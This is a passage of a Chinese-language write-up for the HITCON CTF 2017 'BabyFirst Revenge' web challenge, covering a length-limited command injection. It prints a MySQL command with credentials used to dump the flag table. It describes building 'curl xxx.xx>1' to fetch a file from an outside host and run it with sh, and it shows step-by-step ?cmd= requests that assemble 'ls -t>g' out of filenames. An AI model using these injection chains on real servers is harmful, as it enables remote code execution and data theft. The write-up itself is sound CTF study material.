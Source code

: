 ```
mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e 'use fl4gdb;select * from this_is_the
_fl4g;'
```



![baby2](https://moxiaoxi.info/img/post/hitcon/baby2.png)

#### 其他解法

1. [Orange官方解答](https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2017/babyfirst-revenge-v2/exploit.py)
2. [Chybeta的解答](https://chybeta.github.io/2017/11/04/HITCON-CTF-2017-BabyFirst-Revenge-writeup/)
3. [王一航的解答](http://www.jianshu.com/p/82788b6949c7)
4. [https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/](https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/)

这里总结一下，我们的解法是通过构造一个符合字典序的`curl xxx.xx>1`来从外部下载一个文件，并sh执行它。这里的域名需要特殊构造，使其符合字典序。

而Orange的思路用到了一个追加的方式，即\>\>指令。在http://wonderkun.cc/index.html/?p=524这篇文章中，讲到利用`ls -t>a`来防止指令乱序的问题。但当长度为5个字节时，`ls -t>a`指令就无法输入了。而且若分为多个文件指令拼接的时候，我们每次只能输入3个字符。（因为\>和\\需要占去两个字符，另外若要输入一些特殊符号，还会额外占用一个转义符号。）此时，单纯利用\>是无法解决字典序问题的，因为空格和\-\>的ascii码太靠前了。但是，如果使用追加功能的话是可以完成的，我们可以先写入ls，再追加` -t>a`。

这里还有一个特性，就是bash会忽略执行过程中遇到的一行错误。

具体如下：

```bash
http://10.211.55.17/?cmd=>ls\
http://10.211.55.17/?cmd=ls>_
此时，_文件内容为
➜  1924cf16182a5279a02c5ffb573daaa4 cat _
_
ls\
再访问
http://10.211.55.17/?cmd=>\ \
http://10.211.55.17/?cmd=>-t\
http://10.211.55.17/?cmd=>\>g
http://10.211.55.17/?cmd=ls>>_(追加文件)
此时，_文件内容
➜  1924cf16182a5279a02c5ffb573daaa4 ls
 \  _  >g  ls\  -t\
➜  1924cf16182a5279a02c5ffb573daaa4 cat _
_
ls\
 \
-t\
>g
_
ls\
如果，我们执行_，可以发现ls -t>g指令会执行，虽然第1、6行会报错。
➜  1924cf16182a5279a02c5ffb573daaa4 sh _
_: 1: _: _: not found
_: 6: _: _: not found
 \  _  g  >g  ls\  -t\
 g文件内容以生成时间逆序写入
 ➜  1924cf16182a5279a02c5ffb573daaa4 cat g
g
_
>g
-t\
 \
ls\
```
